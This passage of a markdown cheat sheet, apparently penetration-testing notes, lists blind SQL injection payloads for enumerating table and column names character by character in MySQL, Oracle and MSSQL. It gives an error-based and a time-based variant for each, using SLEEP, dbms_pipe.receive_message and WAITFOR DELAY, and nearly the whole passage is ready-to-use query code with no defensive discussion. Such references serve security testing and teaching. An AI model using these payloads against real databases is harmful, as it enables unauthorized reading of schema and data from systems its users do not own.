 <aside>
💡 In MySQL there is no direct way to view owners of tables like in other DBMS’s, instead you have to enumerate the table name.

</aside>

### MySQL (error based)

```sql
SELECT IF ((SELECT SUBSTRING((SELECT TABLE_NAME FROM (SELECT (@row_number:=@row_number + 1) AS RN, TABLE_NAME FROM INFORMATION_SCHEMA.TABLES, (SELECT @row_number:=0) AS RN) AS RESULT WHERE RN = 1),1,1)) = 'C', (SELECT TABLE_NAME FROM INFORMATION_SCHEMA.TABLES), 'a') AS RESULT;
```

### MySQL (time based

```sql
SELECT IF ((SELECT SUBSTRING((SELECT TABLE_NAME FROM (SELECT (@row_number:=@row_number + 1) AS RN, TABLE_NAME FROM INFORMATION_SCHEMA.TABLES, (SELECT @row_number:=0) AS RN) AS RESULT WHERE RN = 1),1,1)) = 'C', (SELECT SLEEP(10)), 'a') AS RESULT
```

## Enumerate Column Names of Tables

### Oracle (error based)

```sql
SELECT CASE WHEN SUBSTR((SELECT COLUMN_NAME FROM (select rownum rn, column_name from all_tab_columns WHERE TABLE_NAME = 'SYSTEM_PRIVILEGE_MAP') WHERE RN = 1),1,1)='A' THEN TO_CHAR(1/0) ELSE NULL END FROM DUAL
```

### Oracle (time based)

```sql
SELECT CASE WHEN SUBSTR((SELECT COLUMN_NAME FROM (select rownum rn, column_name from all_tab_columns WHERE TABLE_NAME = 'SYSTEM_PRIVILEGE_MAP') WHERE RN = 1),1,1)='A' THEN dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM DUAL
```

### MSSQL (error based)

```sql
IF ((SELECT SUBSTRING((SELECT COLUMN_NAME FROM (SELECT ROW_NUMBER() OVER (ORDER BY COLUMN_NAME) AS RN, COLUMN_NAME FROM (SELECT * FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = 'ForgeRock') AS THING) AS THING WHERE RN=1),1,1)))='A' BEGIN THROW 500001, 'ERROR', 1; END
```

### MSSQL (time based)

```sql
IF ((SELECT SUBSTRING((SELECT COLUMN_NAME FROM (SELECT ROW_NUMBER() OVER (ORDER BY COLUMN_NAME) AS RN, COLUMN_NAME FROM (SELECT * FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = 'ForgeRock') AS THING) AS THING WHERE RN=1),1,1)))='A' WAITFOR DELAY '0:0:02'
```
